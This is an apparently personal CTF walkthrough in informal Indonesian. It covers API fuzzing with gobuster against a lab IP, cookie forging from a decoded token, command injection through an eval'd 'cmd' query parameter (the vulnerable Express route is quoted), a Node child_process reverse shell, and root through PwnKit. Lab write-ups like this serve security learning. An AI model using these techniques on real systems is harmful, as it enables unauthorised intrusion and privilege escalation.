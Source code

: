 # boot:
1. scan 80 doang yang kebuka -> webnya 502 -> fuzz aja ada secret -> ctrl + u -> ada path /api/access coba aja path nya
2. http://ip/api/access -> ada tuh token nya coba decode
3. dapet tuh -> coba ke home tadi ada header set cookie jadi ada cookie -> anti cookie jadi baseh64 yg dah di decode tadi
4. ada tuh web nya beda -> ctrl + u -> ke js -> ada fetch lagi get api lagi kesitu
5. fuzz aja api nya -> gobuster fuzz -m POST -u web/api/items?FUZZ=id -w seclistapi/object 
6. gini biar ga error soalnya ? di terminal malah lain -> kasih kutip aja 
7. gobuster fuzz -m POST -u "http://10.10.176.226/api/items?FUZZ=id" -w ~/wordlists/seclists/web-content/api/objects.txt
8. exclude aja length nya kalau banyak response
9. dapet tuh cmd -> pake burp aja biar method post -> revshell pakai require("child_process").exec("revshell")
10. ke /home/user dapet flag user -> revshell post ke items bisa di exploit karna ini:
11. router.post('/items', (req, res) => {
  if (req.query.cmd) res.send('vulnerability_exploited ' + eval(req.query.cmd));
  else res.status(400).json({ message: 'there_is_a_glitch_in_the_matrix' });
});



# pe:
1. gabisa sudo -l soalnya gatau passwd nya -> next cek /opt dulu ada doas tuh
2. cari aja doas exploit gimana
3. gada dah ternyata di linpeas vuln nya ini
4. Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                       [Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
5. cek disini: https://github.com/ly4k/PwnKit
6. coba2 aja dah -> klaim root
